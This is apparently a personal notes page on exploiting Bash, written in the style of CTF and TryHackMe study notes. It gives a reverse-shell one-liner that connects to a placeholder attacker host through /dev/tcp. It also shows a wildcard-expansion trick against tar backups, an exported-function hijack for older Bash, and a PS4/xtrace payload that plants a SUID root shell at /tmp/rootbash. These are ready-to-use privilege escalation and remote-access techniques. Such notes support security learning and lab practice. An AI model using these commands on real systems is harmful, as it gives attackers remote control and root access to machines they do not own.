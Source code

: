# Exploiting Bash

## A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what’s happening here is that /dev/tcp is bidirectional “out of the box” — incoming data comes out, just as outgoing data goes in — so binding all three “core” file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means “bind file descriptor X to file descriptor Y”, and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what’s happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

## Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn’t get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy tar-based backup scripts.

## Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it’s possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

## Exploiting PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i \
SHELLOPTS=xtrace \
PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' \
/path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

## Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs…)

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Using “netcat”](netcat.md)
* [Using “socat”](socat.md)
* [Exploiting “tar”](exploiting-tar.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 29, 2021
